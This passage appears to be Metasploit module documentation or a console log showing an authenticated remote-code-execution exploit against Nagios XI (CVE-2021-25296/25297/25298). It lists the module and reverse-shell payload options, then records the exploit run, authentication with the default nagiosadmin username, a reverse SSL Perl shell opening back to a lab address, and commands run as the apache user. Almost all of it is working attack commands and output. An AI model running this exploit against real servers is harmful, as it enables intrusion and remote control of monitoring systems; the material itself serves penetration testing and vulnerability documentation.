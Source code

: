```
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly
                                              generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   TARGET_CVE      CVE-2021-25296   yes       CVE to exploit (CVE-2021-25296, CVE-2021-25297, or CVE
                                              -2021-25298)
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      no        Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.153.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   CMD



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set TARGET_CVE CVE-2021-25297
TARGET_CVE => CVE-2021-25297
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > exploit

[*] Started reverse SSL handler on 192.168.153.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command shell session 1 opened (192.168.153.128:4444 -> 192.168.153.132:56322) at 2023-02-07 11:44:00 -0600

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
whoami
apache
uname -a
Linux localhost.localdomain 3.10.0-1160.2.2.el7.x86_64 #1 SMP Tue Oct 20 16:53:08 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
